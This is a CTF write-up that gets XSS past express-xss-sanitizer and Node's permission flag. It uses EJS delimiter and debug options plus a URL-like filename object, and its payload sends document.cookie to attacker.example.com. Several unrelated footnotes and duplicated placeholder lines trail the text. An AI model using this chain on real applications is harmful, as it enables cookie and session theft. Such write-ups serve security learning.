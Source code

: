 ```javascript
// Mitigation 4:
"--experimental-permission",
`--allow-fs-read=${__dirname}/src`,
```

The goal is to bypass the above mitigations and gain an XSS.

### Solution

There are various approaches to solving this challenge. My solution is one of them. If you are interested in other solutions, join the CTF Discord and see `#web` channel.

My solution is:
```javascript
const jsPayload = `location = "https://attacker.example.com?" + document.cookie`;

const srcUrl = `/?${new URLSearchParams({
  filename: "render.dist.js",
  "settings[view options][openDelimiter]": "__require() {\n",
  "settings[view options][closeDelimiter]": "||",
  "settings[view options][delimiter][]": "",
  mod: jsPayload,
})}`;

const evilUrl = `http://web:3000?${new URLSearchParams({
  "filename[href]": "x",
  "filename[origin]": "x",
  "filename[protocol]": "file:",
  "filename[hostname]": "",
  "filename[pathname]": "index.ejs",
  [`filename[<script src=${srcUrl}></script>]`]: "",
  "settings[view options][debug]": "1",
})}`;
```

For the first URL `srcUrl`:

- It abuses the following part of `render.dist.js`:
    ```javascript
    /* snip */
    var __commonJS = (cb, mod) => function __require() {
      return mod || (0, cb[__getOwnPropNames(cb)[0]])((mod = { exports: {} }).exports, mod), mod.exports;
    };
    /* snip */
    ```
- By the EJS options, it executes `return mod` as JavaScript and the value of `mod` is rendered as a page.
- Thus, the string `jsPayload` is rendered.

For the second URL `evilUrl`:

- As an important fact, [express-xss-sanitizer](https://github.com/AhmedAdelFahim/express-xss-sanitizer/) does not escape keys of request queries.
    - ref. https://github.com/AhmedAdelFahim/express-xss-sanitizer/blob/v1.1.6/lib/sanitize.js#L31
- `ejs.renderFile` allows a URL-like object as a file path.
    - `ejs.renderFile` uses `fs.readFileSync` internally.
        - ref. https://github.com/mde/ejs/blob/v3.1.9/lib/ejs.js#L87
    - `fs.readFileSync` allows a URL-like object as a file path.
        - I first saw this bypass technique at simplewaf in corCTF 2022
        - ref. https://brycec.me/posts/corctf_2022_challenges#simplewaf
- `debug` option renders `src`.
    - ref. https://github.com/mde/ejs/blob/v3.1.9/lib/ejs.js#L646-L648
    - `src` includes `JSON.stringify(opts.filename)`.
        - ref. https://github.com/mde/ejs/blob/v3.1.9/lib/ejs.js#L584
        - ref. https://github.com/mde/ejs/blob/v3.1.9/lib/ejs.js#L625

[^hidden-note-01]: https://arxiv.org/pdf/2106.05123.pdf
[^hidden-note-02]: Strictly speaking, there are more conditions for the shuffle.
  [CUSTOM_KEY]: true;
  [CUSTOM_KEY]: true;
[^node-ppjail-01]: That's because the default value for `target` option of `tsc` is ES3. ES3 is a very old ECMAScript version. ref: https://www.typescriptlang.org/tsconfig/#target